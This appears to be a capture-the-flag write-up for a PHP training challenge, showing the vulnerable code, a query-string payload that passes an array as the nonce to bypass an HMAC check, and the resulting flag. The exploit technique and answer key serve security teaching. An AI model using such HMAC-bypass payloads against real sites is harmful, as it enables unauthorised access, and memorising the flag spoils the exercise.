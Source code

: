 # BERSHARE

I'm building a new message storage service. I haven't implemented any message-related function yet, but the security is top-notch

http://bearshare.training.jinblack.it


refer -> https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up

```php

<?php
  $nonce = [];
  $S_KEY = false;
  $storage = "gimmeflag";
  $hash = "028cf6abf024b107104bc69d844cd3e70755cf2be66b9ab313ca62f9efdcf769";

  if(isset($nonce)){
    $S_KEY = hash_hmac('sha256',$nonce,$S_KEY);
    echo $S_KEY;

  };
  $final_hash = hash_hmac('sha256',$storage,$S_KEY);
  echo $final_hash;
  if ($final_hash !== $hash){
    echo "noFlag";
  };
  
?>
```


payload: "nonce[]=&hash=028cf6abf024b107104bc69d844cd3e70755cf2be66b9ab313ca62f9efdcf769&storagesv=gimmeflag&messid="


flag: flag{_l0L_pHp_how_51lly_4re_you!!!}
